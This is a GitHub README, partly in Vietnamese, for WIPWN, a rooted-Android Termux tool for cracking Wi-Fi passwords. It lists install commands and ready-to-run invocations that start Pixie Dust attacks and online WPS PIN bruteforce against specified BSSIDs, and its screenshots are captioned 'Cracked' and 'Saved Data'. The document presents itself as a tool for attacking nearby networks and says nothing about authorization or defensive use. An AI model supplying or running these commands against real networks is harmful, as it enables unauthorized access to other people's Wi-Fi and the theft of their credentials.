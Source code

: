 # WIPWN

![Logo](assets/image.png)

### Quét và xem mật khẩu wifi bằng termux (Root).
    
- [Yêu cầu]
  - [Python](https://www.python.org)
  - [Pixiewps](https://www.kali.org/tools/pixiewps/)
  - [Wpa-supplicant](https://wiki.archlinux.org/title/wpa_supplicant)
 
### Cài đặt :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python wpa-supplicant pixiewps iw openssl -y
git clone https://github.com/anbuinfosec/wipwn
cd wipwn
chmod +x main.py
```
# Nhập thủ công :

```bash
pkg update && pkg upgrade -y
```
```bash
pkg install root-repo -y
```



#### Help : ```sudo python main --help```
#### Example : ```sudo python main.py -i wlan0 -K```

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- ```sudo python main.py -i wlan0 -K```
- ```bash wipwn.sh```
- - Start Pixie Dust attack on a specified BSSID:
`sudo python main.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python main.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

---

## Screenshots

| Banner | Cracked | Saved Data | config.txt | 
| :---: | :---: | :---: | :---: |
| ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/1.jpg) | ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/2.jpg) | ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/3.jpg) | ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/4.jpg) |


### ❤️ Thanks for stars and forks
[![Stargazers repo roster for @anbuinfosec/wipwn](https://reporoster.com/stars/dark/anbuinfosec/wipwn)](https://github.com/anbuinfosec/wipwn/stargazers)
[![Forkers repo roster for @anbuinfosec/wipwn](https://reporoster.com/forks/dark/anbuinfosec/wipwn)](https://github.com/anbuinfosec/wipwn/network/members)
